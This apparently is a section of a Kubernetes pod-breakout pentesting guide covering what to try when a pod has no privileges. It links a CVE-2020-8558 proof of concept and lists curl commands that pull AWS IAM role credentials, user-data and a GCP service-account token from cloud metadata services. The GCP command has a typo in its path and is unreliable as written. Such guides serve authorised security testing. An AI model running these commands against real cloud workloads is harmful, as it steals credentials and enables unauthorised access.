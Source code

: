 ## You have nothing

The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities.  **Do not despair**, especially if the target cluster is running in a cloud environment. 

Can your pod access the cloud provider' metadata service?
Is the kubernetes version vulnerable to an exploit, i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)
[pod-priv-only.yaml](pod-priv-only.yaml)

 
 
 If cloud hosted, look at the metadata service and checkout user-data, and the IAM permissions. If an IAM role has been assigned to the node, use that to see wht access you hav in the cloud environment. 

```bash
curl http://169.254.169.254/latest/user-data 
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/insce-accounts/default/token
```
